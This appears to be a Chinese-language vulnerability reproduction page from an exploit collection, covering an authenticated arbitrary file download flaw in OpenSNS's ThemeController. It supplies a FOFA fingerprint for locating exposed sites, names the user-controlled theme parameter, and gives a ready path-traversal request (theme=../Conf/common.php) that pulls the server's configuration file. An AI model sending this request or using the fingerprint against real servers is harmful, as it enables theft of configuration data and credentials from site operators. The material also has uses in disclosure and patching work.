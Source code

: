 # OpenSNS ThemeController.class.php 后台任意文件下载漏洞

## 漏洞描述

OpenSNS ThemeController.class.php文件中存在文件下载，其中过滤不足导致可以下载服务器任意文件

## 漏洞影响

```
OpenSNS
```

## FOFA

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下

![image-20220518154815562](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181548621.png)

存在漏洞的文件为 `Application/Admin/Model/ThemeController.class.php`

![image-20220518154826306](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181548388.png)

其中 theme参数为用户可控参数，根据函数流程可以发现存在的文件将会打包为 zip文件提供下载

![image-20220518154838931](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181548023.png)

构造请求

```
POST /admin.php?s=/theme/packageDownload

theme=../Conf/common.php
```

![image-20220518154851785](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205181548889.png)